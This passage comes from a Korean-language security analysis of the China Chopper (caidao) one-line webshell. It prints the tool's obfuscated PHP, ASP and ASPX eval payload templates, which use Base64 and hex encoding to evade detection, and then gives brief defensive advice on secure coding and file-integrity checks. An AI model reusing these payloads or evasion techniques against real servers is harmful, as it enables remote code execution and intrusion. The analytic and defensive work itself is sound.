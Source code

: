       print $ret;;
      echo("X@Y");
      die();

위 3 가지 실습을 가지고 분석한 결과, 웹쉘 eval 함수의 변수명에 실직적인 공격 코드를 우회적인 기법과 Base64 인코딩한 후 전송하여 실행된 결과값을 얻음.

아래 내용은 caidao.conf 파일에서 확인한 각 웹 언어에 따른 Request 기본 전송 폼임.



      // PHP_BASE 매개 변수 : %s
      <PHP_BASE>
      array_map("ass"."ert",array("ev"."Al(\"\\\$xx%%3D\\\"Ba"."SE6"."4_dEc"."OdE\\\";
      @ev"."al(\\\$xx('%s'));\");"));
      </PHP_BASE>

      // ASP_BASE 매개 변수 : %s %s %s 这里有个bd函数用于HEX解码
      <ASP_BASE>
      %%u0045%%xec%%ute%%G%%loba%%l%%%%28Replace%%28%%22Fu%%nct%%ion%%20bd%%28by%%V%%a
      l%%20s%%29:Fo%%r%%20i%%%%3D1%%20T%%o%%20Le%%n%%28s%%29%%20S%%te%%p%%202:c%%%%3DM
      %%id%%28s%%2Ci%%2C2%%29:If%%20Is%%Nu%%meric%%28M%%id%%28s%%2Ci%%2C1%%29%%29%%20T
      %%hen:bd%%%%3Dbd%%4026%%40c%%hr%%28%%22%%22%%4026%%40H%%22%%22%%4026%%40c%%29:E%
      %lse:bd%%%%3Dbd%%4026%%40c%%hr%%28%%22%%22%%4026%%40H%%22%%22%%4026%%40c%%4026%%
      40M%%id%%28s%%2Ci%%2B2%%2C2%%29%%29:i%%%%3Di%%2B2:E%%nd%%20If:Ne%%xt:E%%nd%%20Fu
      %%nct%%ion:E%%xecu%%te%%%%28bd%%%%28%%22%%224F6E204572726F7220526573756D65204E65
      78743A526573706F6E73652E57726974652022%s223A%s3A526573706F6E73652E57726974652022
      %s223A526573706F6E73652E456E64%%22%%22%%29%%%%29%%22%%2C%%22%%4026%%40%%22%%2Cch
      r%%2838%%29%%29%%29
      </ASP_BASE>

      // ASPX_BASE 매개 변수 : %s,%d,%s,%s
      <ASPX_BASE>
      %%u0052%%u0065sponse%%u002E%%u0057rit%%u0065("%s");var %%u0065rr:%%u0045xc%%u006
      5ption;%%u0074ry%%u007B%%u0065val(Syst%%u0065m%%u002ET%%u0065xt%%u002E%%u0045nco
      ding%%u002EG%%u0065t%%u0045ncoding(%d)%%u002EG%%u0065tString(Syst%%u0065m.Conv%%
      u0065rt%%u002EFromBas%%u006564String("%s")),"unsaf%%u0065");
      %%u007Dcatch(err)%%u007B%%u0052esponse%%u002E%%u0057rite("ER"%%2B"ROR://"%%2Berr
      .message);%%u007D%%u0052%%u0065sponse.%%u0057rit%%u0065("%s");%%u0052espons%%u00
      65.%%u0045nd();
      </ASPX_BASE>



## ( 6 ) One Line WebShell 방어법

보통 보안장비에 탐지 정책을 넣을 때 행위 시 발생되는 고유한 시그니처를 기반으로 둔 PCRE 형태로 탐지 정책을 설정함.
그러나 caidao 최신 버전(20160620)에서는 공격자가 원하는 우회 기법을 이용해서 설정 파일(caidao.conf)을 수정 적용해서 공격이 가능하므로 고유한 시그니처를 얻기 힘들 수 있음.
파일 업로드 취약점이라든지 코드 삽입 취약점이 존재하지 않도록 시큐어 코딩하거나 웹 서버의 PHP 파일들의 고유 MD5 값을 저장하여 수시로 변조되거나 새로 생긴 파일이 있는지 여부를 확인하는게 제일 좋은 방법임.
타임 스탬프 확인은 좋은 방법이긴 하나 공격자가 변조가 가능함.

참고로 아래 명령어는 현재 폴더 및 하위폴더의 모든 PHP 파일 중에서 위험한 함수명을 검색하여 웹쉘 파일을 찾는 명령어로 해당 파일 경로를 표시해줌.

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/ead5ea13-5626-49e4-ba13-5e8c5268dafe)

